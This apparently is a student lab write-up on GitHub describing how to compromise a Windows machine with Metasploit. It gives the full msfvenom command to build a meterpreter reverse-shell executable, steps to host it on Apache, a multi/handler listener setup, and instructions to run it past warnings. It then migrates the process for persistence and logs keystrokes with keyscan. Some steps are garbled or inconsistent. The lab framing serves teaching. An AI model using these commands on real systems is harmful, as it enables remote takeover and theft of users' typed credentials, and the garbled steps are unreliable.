 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
## PROGRAM:

Find the attackers ip address using ifconfig


## OUTPUT:
![Screenshot 2025-04-21 101045](https://github.com/user-attachments/assets/19a1c0df-1f79-44de-a7f8-84c52698c143)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/user-attachments/assets/0b4a8445-5db7-4b8a-8fe5-9b9887071562)

copy the fun.exe into the apache /var/www/html folder


![image](https://github.com/user-attachments/assets/02e537dd-d645-4175-8a1d-a6c8be06098e)

Start apache server sudo systemctl apache2 start


![image](https://github.com/user-attachments/assets/f6671861-83b5-47f7-9883-85917c950bb2)


Check the status of apache2

![image](https://github.com/user-attachments/assets/4e4385c2-6741-4e47-9e10-037590ebb90e)

Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/user-attachments/assets/2dbf77b9-5e0a-45b3-9c1c-28f544a0ca5d)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/user-attachments/assets/99931d3f-09a9-4c1f-9c87-30927bc977ff)

Bypass any warning boxes, double-click the file, and allow it to run.

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/user-attachments/assets/b5f1a08c-7335-469b-93eb-28591f603680)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/06c940b6-1f40-4316-a8fe-472d8dde2951)












## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
